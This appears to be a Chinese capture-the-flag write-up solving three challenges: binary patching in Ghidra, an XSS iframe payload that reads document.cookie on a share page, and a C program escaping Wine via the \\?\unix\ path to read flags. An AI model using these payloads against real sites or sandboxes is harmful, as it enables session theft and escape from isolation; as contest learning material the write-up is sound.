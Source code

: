 首先查找字符串：
```bash
strings flag_machine.exe | grep flag
```

可以找到`flag_machine.txt`

在Ghidra里面搜索就会直接跳转到WinProc，此时把判断按钮（if == 2和== 3那两个）的if反转（`00401966`附近的两个JZ和JNZ调换，然后把那个判断“超级管理员”的if也反转，就可以点击退出按钮获得Flag了（在`flag_machine.txt`文件里

（好像有人操作会得到乱码flag，但我没试过

## 微积分计算小练习

简单的先测试下：http://202.38.93.111:10056/share?result=MDpzYWZ2

（感谢purofle提醒我这是web题不是math

塞给CyberChef直接Magic得知result是base64

但是这样没什么用

看页面源码，一眼`innerHTML`，好似，XSS

（我以前也没试过XSS注入，写了个`<script>`结果不执行

```html
<iframe src="http://web/share?result=MDp4dGV4" onload="document.getElementById('a').innerText=document.cookie"></iframe><span id="a"></span>
```

上网学了下，知道要用其他元素的事件

这里我选择了iframe，src直接给一个成绩链接改成web

## 杯窗鹅影

在wine中，`start.exe \unix`可以启动unix的程序，查找[wine的源码](https://gitlab.winehq.org/wine/wine/-/blob/master/programs/start/start.c#L545)，可以发现`\\?\unix\`会等效于`/`所以

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
 
int main()
{
   FILE *fp = NULL;
   char buff[255];
fp = fopen("\\\\?\\unix\\flag1", "r");   
   fgets(buff, 255, (FILE*)fp);
   printf("3: %s\n", buff );
   fclose(fp);
   system("\\\\?\\unix\\readflag");
   char *argv[]={"\\\\?\\unix\\readflag", NULL};
    char *envp[]={0,NULL};
    execve("\\\\?\\unix\\readflag",argv,envp);
 
}
```
